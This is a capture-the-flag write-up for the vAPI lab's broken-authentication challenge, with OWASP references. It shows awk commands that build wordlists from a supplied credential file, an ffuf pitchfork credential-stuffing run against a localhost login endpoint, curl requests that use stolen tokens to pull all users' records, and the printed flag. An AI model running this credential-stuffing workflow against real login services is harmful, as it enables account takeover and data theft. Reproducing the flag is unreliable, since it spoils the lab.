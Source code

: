 > We don't seem to have credentials for this , How do we login? (There's something in the Resources Folder given to you )

# Tools Used:
```
GNU Awk 5.2.1
ffuf 2.1.0-dev
curl 8.8.0 (x86_64-pc-linux-gnu)
grep (GNU grep) 3.11
```

# User Login
## POST /vapi/api2/user/login

Create a emails.txt wordlist from the credential list provided.
```bash
awk -F"," '{print $1}' /home/kali/Desktop/labs/vapi/Resources/API2_CredentialStuffing/creds.csv > ~/Desktop/emails.txt
```

Create a pass.txt wordlist from the credential list provided.
```bash
awk -F"," '{print $2}' /home/kali/Desktop/labs/vapi/Resources/API2_CredentialStuffing/creds.csv > ~/Desktop/pass.txt
```

Pitchfork the credentials provided with FuFF.
```bash
ffuf -w /home/kali/Desktop/emails.txt:FUZZ1 -w /home/kali/Desktop/pass.txt:FUZZ2 -X POST -H "Content-Type: application/json" -d '{"email": "FUZZ1", "password": "FUZZ2"}' -u http://localhost/vapi/api2/user/login -fc 401 -mode pitchfork -v
```
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/vapi/api2/user/login
 :: Wordlist         : FUZZ1: /home/kali/Desktop/emails.txt
 :: Wordlist         : FUZZ2: /home/kali/Desktop/pass.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"email": "FUZZ1", "password": "FUZZ2"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 401
________________________________________________

[Status: 200, Size: 89, Words: 1, Lines: 1, Duration: 2208ms]
| URL | http://localhost/vapi/api2/user/login
    * FUZZ1: savanna48@ortiz.com
    * FUZZ2: zTyBwV/9

[Status: 200, Size: 89, Words: 1, Lines: 1, Duration: 2187ms]
| URL | http://localhost/vapi/api2/user/login
    * FUZZ1: hauck.aletha@yahoo.com
    * FUZZ2: kU-wDE7r

[Status: 200, Size: 89, Words: 1, Lines: 1, Duration: 2207ms]
| URL | http://localhost/vapi/api2/user/login
    * FUZZ1: harber.leif@beatty.info
    * FUZZ2: kU-wDE7r

:: Progress: [1000/1000] :: Job [1/1] :: 18 req/sec :: Duration: [0:00:55] :: Errors: 0 ::
```

Use any of the correct credentials to get a JSON response containing the Token.
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Type: application/json' \
    --data-binary $'{\x0d\x0a\"email\": \"savanna48@ortiz.com\",\x0d\x0a\"password\": \"zTyBwV/9\"\x0d\x0a}' \
    $'http://localhost/vapi/api2/user/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 20:09:12 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 20:09:12 GMT
Content-Type: application/json

{"success":"true","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB"}
```

```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Type: application/json' \
    --data-binary $'{\x0d\x0a\"email\": \"hauck.aletha@yahoo.com\",\x0d\x0a\"password\": \"kU-wDE7r\"\x0d\x0a}' \
    $'http://localhost/vapi/api2/user/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 20:10:12 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 20:10:12 GMT
Content-Type: application/json

{"success":"true","token":"1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA"}
```

```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Type: application/json' \
    --data-binary $'{\x0d\x0a\"email\": \"harber.leif@beatty.info\",\x0d\x0a\"password\": \"kU-wDE7r\"\x0d\x0a}' \
    $'http://localhost/vapi/api2/user/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 20:10:51 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 20:10:51 GMT
Content-Type: application/json

{"success":"true","token":"sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi"}
```


As specified in the Postman Collection, the test script to be executed for the API2 User Login endpoint is used to derive the Token (Authorization-Token) by parsing the JSON, selecting the value of "token" key and updates it in the Postman Environment as api2_auth.
```js
var jsonData = JSON.parse(responseBody);
var api2_auth = jsonData.token;
console.log("API 2 Auth : "+api2_auth);
postman.setEnvironmentVariable("api2_auth",api2_auth);
```

We can manually derive the Authorization Token (Authorization-Token) of our fuzzed user(s) manually from the response(s):
```
Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB
```
```
1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA
```
```
sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi
```
- We will need any one of these Authorization Tokens for the "Get Details" endpoint

Get the Cross Site Request Forgery Token (XSRF-TOKEN)
```bash
curl -c - http://127.0.0.1/vapi/ -v --silent 2>&1 | grep -shoP '(?<=Set-Cookie: XSRF-TOKEN=).*?(?=;)'
```
```
eyJpdiI6IjRPYjBYbDh1aHNzMlpuZVpsQ0NkbXc9PSIsInZhbHVlIjoiNTBwRjJrWExlYkJjVFdRcEZ5NEQ5OCtoUFVnMCtvYk1hdE5OR0NBSXlJeWhuWG9jR2l4MWJJcGVxcTdWandUSGs3S21KU1dQcWZQUWZnZlZDWVBXYkpzV041anVHUk1EUHdtRUVBM21ETHd4OGxoS3A3YU1DdDNtRmxteElsbDQiLCJtYWMiOiI5ZWU2ZmI2Y2YwMzVkYjI1YzlhMzQ2MjYwMTA5NDg2MTFmOTJiNjI2NDljYzE0ZGQ1OGE1ZjRmZWE2YjM5MzdkIiwidGFnIjoiIn0%3D
```
- We will need this Cross Site Request Forgery Token for the "Get Details" endpoint

# Get Details
## GET /vapi/api2/user/details

Use any of the authorization token with the XSRF token to get the flag
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -b $'XSRF-TOKEN=eyJpdiI6InVRcmlodGE0ZTJGdk0yT1o0cDIxZGc9PSIsInZhbHVlIjoiZGdBVEh0VG9sTzhVZnBpaml5ckFOaXQrT2krVTNNYlZvMHJtdmUyZGM1KzBaSG5VdVRhK3YwU3M2VGc4MzEvM2xubHY5WXkwRG53SWNwUi90eWVLWkJNeXpjMGVCbkhFMGxCV01FSjJzM050TElOd3FFSkoyVzVvYTdnT2dTM2MiLCJtYWMiOiJjNzBlN2IxODEyMzA4OTNiODI0ZTRiYWMzMzMxN2ZlZTRmYzliNTQ1ODRlZTM3NTE2NDYwN2RmZTBiMzJiYWU1IiwidGFnIjoiIn0%3D' \
    -H $'Authorization-Token: Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB' \
    $'http://localhost/vapi/api2/user/details'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 20:27:30 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 20:27:30 GMT
Content-Type: application/json

[{"id":1,"email":"savanna48@ortiz.com","name":"Evelyn","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB","address":"10th Downing","city":"Mesport","country":"USA"},{"id":2,"email":"hauck.aletha@yahoo.com","name":"Tara","token":"1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA","address":"flag{api2_6bf2beda61e2a1ab2d0a}","city":"Delhi","country":"India"},{"id":3,"email":"harber.leif@beatty.info","name":"Joyce","token":"sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi","address":"San Jose","city":"California","country":"USA"}]
```

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -b $'XSRF-TOKEN=eyJpdiI6InVRcmlodGE0ZTJGdk0yT1o0cDIxZGc9PSIsInZhbHVlIjoiZGdBVEh0VG9sTzhVZnBpaml5ckFOaXQrT2krVTNNYlZvMHJtdmUyZGM1KzBaSG5VdVRhK3YwU3M2VGc4MzEvM2xubHY5WXkwRG53SWNwUi90eWVLWkJNeXpjMGVCbkhFMGxCV01FSjJzM050TElOd3FFSkoyVzVvYTdnT2dTM2MiLCJtYWMiOiJjNzBlN2IxODEyMzA4OTNiODI0ZTRiYWMzMzMxN2ZlZTRmYzliNTQ1ODRlZTM3NTE2NDYwN2RmZTBiMzJiYWU1IiwidGFnIjoiIn0%3D' \
    -H $'Authorization-Token: 1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA' \
    $'http://localhost/vapi/api2/user/details'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 20:27:57 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 20:27:57 GMT
Content-Type: application/json

[{"id":1,"email":"savanna48@ortiz.com","name":"Evelyn","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB","address":"10th Downing","city":"Mesport","country":"USA"},{"id":2,"email":"hauck.aletha@yahoo.com","name":"Tara","token":"1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA","address":"flag{api2_6bf2beda61e2a1ab2d0a}","city":"Delhi","country":"India"},{"id":3,"email":"harber.leif@beatty.info","name":"Joyce","token":"sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi","address":"San Jose","city":"California","country":"USA"}]
```

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -b $'XSRF-TOKEN=eyJpdiI6InVRcmlodGE0ZTJGdk0yT1o0cDIxZGc9PSIsInZhbHVlIjoiZGdBVEh0VG9sTzhVZnBpaml5ckFOaXQrT2krVTNNYlZvMHJtdmUyZGM1KzBaSG5VdVRhK3YwU3M2VGc4MzEvM2xubHY5WXkwRG53SWNwUi90eWVLWkJNeXpjMGVCbkhFMGxCV01FSjJzM050TElOd3FFSkoyVzVvYTdnT2dTM2MiLCJtYWMiOiJjNzBlN2IxODEyMzA4OTNiODI0ZTRiYWMzMzMxN2ZlZTRmYzliNTQ1ODRlZTM3NTE2NDYwN2RmZTBiMzJiYWU1IiwidGFnIjoiIn0%3D' \
    -H $'Authorization-Token: sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi' \
    $'http://localhost/vapi/api2/user/details'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 20:28:30 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 20:28:30 GMT
Content-Type: application/json

[{"id":1,"email":"savanna48@ortiz.com","name":"Evelyn","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB","address":"10th Downing","city":"Mesport","country":"USA"},{"id":2,"email":"hauck.aletha@yahoo.com","name":"Tara","token":"1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA","address":"flag{api2_6bf2beda61e2a1ab2d0a}","city":"Delhi","country":"India"},{"id":3,"email":"harber.leif@beatty.info","name":"Joyce","token":"sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi","address":"San Jose","city":"California","country":"USA"}]
```

API2 Flag
```
flag{api2_6bf2beda61e2a1ab2d0a}
```

References:
https://owasp.org/API-Security/editions/2023/en/0xa2-broken-authentication/
https://owasp.org/API-Security/editions/2019/en/0xa2-broken-user-authentication/